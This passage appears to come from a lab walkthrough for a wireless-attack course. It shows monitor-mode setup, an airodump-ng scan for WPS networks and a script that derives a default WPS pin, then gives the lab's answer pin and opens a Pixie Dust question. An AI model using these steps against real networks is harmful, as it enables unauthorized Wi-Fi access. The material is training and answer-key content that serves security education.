```shell
iw dev wlan0 interface add mon0 type monitor
ifconfig mon0 up
```

```
root@WiFiIntro:/home/wifi# iw dev wlan0 interface add mon0 type monitor
root@WiFiIntro:/home/wifi# ifconfig mon0 up
```

Subsequently, students will use `airodump-ng` to scan the environment and obtain the MAC address of the `HackTheWifi` network:

Code: shell

```shell
airodump-ng mon0 --wps
```

```
root@WiFiIntro:/home/wifi# airodump-ng mon0 --wps

 CH 10 ][ Elapsed: 0 s ][ 2024-11-04 12:27 

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH WPS    ESSID

 D8:D7:3D:EB:29:D5  -28       23        0    0   1   54   WPA2 CCMP   PSK  2.0    CyberNetSecure                                                 
 60:38:E0:12:4F:A2  -28       23        0    0   1   54   WPA2 CCMP   PSK  2.0    HackTheWifi                                                    
 3E:A5:ED:8A:1C:74  -28       23        0    0   1   54   WPA2 CCMP   PSK  2.0    HTB-Wireless  
```

Students will use `default-wps-pin.py` located in the `/opt/Default-wps-pin` directory with the MAC address of the `HackTheWifi` network to obtain the WPS pin:

Code: shell

```shell
python2 /opt/Default-wps-pin/default-wps-pin.py 60:38:E0:12:4F:A2
```

```
root@WiFiIntro:/home/wifi# python2 /opt/Default-wps-pin/default-wps-pin.py 60:38:E0:12:4F:A2

derived serial number: R----20386
SSID: Arcor|EasyBox|Vodafone-124F26
WPS pin: {hidden}
```

Answer: `93007801`

# The Pixie Dust Attack

## Question 1

### "Scan for the available WIFI Networks. What is the name of the available WIFI network?"
